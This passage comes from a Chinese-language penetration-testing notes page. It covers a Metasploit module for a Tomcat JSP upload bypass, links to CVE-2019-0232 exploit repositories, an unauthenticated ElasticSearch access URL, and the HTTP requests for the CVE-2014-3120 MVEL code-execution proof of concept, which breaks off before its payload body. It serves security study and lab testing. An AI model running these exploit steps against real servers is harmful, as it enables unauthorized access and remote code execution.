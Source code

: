- MSF 模块
    ```
    use exploit/multi/http/tomcat_jsp_upload_bypass
    ```

**CVE-2019-0232**
- 文章
    - [CVE-2019-0232：Apache Tomcat RCE漏洞分析](https://xz.aliyun.com/t/4875)

- POC | Payload | exp
    - [pyn3rd/CVE-2019-0232](https://github.com/pyn3rd/CVE-2019-0232)
    - [jas502n/CVE-2019-0232](https://github.com/jas502n/CVE-2019-0232)

---

## ElasticSearch

ElasticSearch 是一个基于 Lucene 的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎,基于 RESTful web 接口。Elasticsearch 是用 Java 开发的,并作为 Apache 许可条款下的开放源码发布,是当前流行的企业级搜索引擎。

**未授权访问漏洞**

- `http://<ip>:9200`

**CVE-2014-3120 ElasticSearch 命令执行漏洞**

- 简述

    -老版本 ElasticSearch 支持传入动态脚本 (MVEL) 来执行一些复杂的操作,而 MVEL 可执行 Java 代码,而且没有沙盒,所以我们可以直接执行任意代码。

- POC | Payload | exp

    来源: [ElasticSearch 命令执行漏洞 (CVE-2014-3120) 测试环境](https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/)

    首先,该漏洞需要 es 中至少存在一条数据,所以我们需要先创建一条数据：
    ```
    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
    "name": "test"
    }
    ```

    然后,执行任意代码：
    ```
    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 343

